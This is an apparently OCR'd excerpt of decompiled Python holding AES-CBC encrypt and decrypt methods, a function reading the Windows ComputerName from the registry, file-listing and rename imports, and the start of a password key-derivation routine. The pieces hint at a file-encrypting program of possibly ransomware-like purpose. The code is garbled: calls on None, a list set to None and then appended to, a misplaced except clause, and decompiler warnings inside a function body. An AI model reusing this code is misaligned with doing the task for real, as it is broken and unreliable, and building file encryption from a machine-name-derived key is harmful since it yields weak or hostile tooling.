 ```python
        return matrix2bytes(cipher_state)


    def encrypt_cbc(self, plaintext, iv):
        '''
        Encrypts `plaintext` using CBC mode and PKCS#7 padding, with the given
        initialization vector (iv).
        '''
        if not len(iv) == 16:
            raise AssertionError
        plaintext = None(plaintext)
        blocks = []
        previous = iv
        for plaintext_block in split_blocks(plaintext):
            block = self.encrypt_block(xor_bytes(plaintext_block, previous))
            blocks.append(block)
            previous = block

        return b''.join(blocks)


    def decrypt_cbc(self, ciphertext, iv):
        '''
        Decrypts `ciphertext` using CBC mode and PKCS#7 padding, with the given
        initialization vector (iv).
        '''
        if not len(iv) == 16:
            raise AssertionError
        blocks = None
        previous = iv
        for ciphertext_block in split_blocks(ciphertext):
            blocks.append(xor_bytes(previous, self.decrypt_block(ciphertext_block)))
            previous = ciphertext_block

        return unpad(b''.join(blocks))


import hashlib
from os import listdir, getcwd, rename
from os.path import isfile, join
REG_PATH = 'SYSTEM\\\\ControlSet001\\\\Control\\\\ComputerName\\\\ComputerName'
AES_KEY_SIZE = 16
IV_SIZE = 16

def get_reg(name):
Warning: Stack history is not empty!
Warning: block stack is not empty!

    try:
        registry_key = winreg.OpenKey(winreg.HKEY_LOCAL_MACHINE, REG_PATH, 0, winreg.KEY_READ)
        (value, regtype) = winreg.QueryValueEx(registry_key, name)
        winreg.CloseKey(registry_key)
        return value
        except WindowsError:
            return None
        else:
            return None



def get_key_iv(password, workload = (100000,)):
    '''
    Stretches the password and extracts an AES key, an HMAC key and an AES
```